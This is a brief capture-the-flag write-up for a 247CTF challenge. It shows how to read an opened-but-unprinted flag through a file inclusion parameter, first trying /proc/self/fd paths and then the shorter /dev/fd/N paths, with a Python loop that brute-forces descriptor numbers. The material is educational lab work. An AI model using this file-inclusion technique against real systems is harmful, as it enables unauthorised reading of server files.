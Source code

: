 # Discussion

We have opened the flag, but forgot to read and print it. Can you access it anyway?

## Hmm

I have no idea, but see that =))

![1](https://user-images.githubusercontent.com/104124377/165557935-79a4a049-ee59-4ac8-8a37-4c4ededfc31e.png)

Oh, he means when the file is opening, we can access the file on the system with side path /proc/self/fd/num_of_file_is_opening

But how to access file in sever?

```url
https://55ba6d8a8d230124.247ctf.com/?include=/proc/self/fd/1
```

### Is that?

"/proc/self/fd/num"
No, it's longer than 10 characters.

### So how to handle this problem?

With few google searches =)) I found it

![2](https://user-images.githubusercontent.com/104124377/165558019-9a06eb50-cfc1-4677-867d-918996c59a11.png)

```url
https://55ba6d8a8d230124.247ctf.com/?include=/dev/fd/num_of_file_is_opening
```

### To be faster, i wrote a python program

```python
import requests

target = "https://55ba6d8a8d230124.247ctf.com/?include=/dev/fd/"

for i in range(100):
    print("Running with index", i)
    flag = requests.get(target + str(i))
    if "247" in flag.text:
        print(flag.text)
        break
```

## yeahh, i got the flag

![3](https://user-images.githubusercontent.com/104124377/165558095-087157e6-66cb-43d5-9741-0b8d6b2fc6a9.png)

## That's all. Thanks for reading

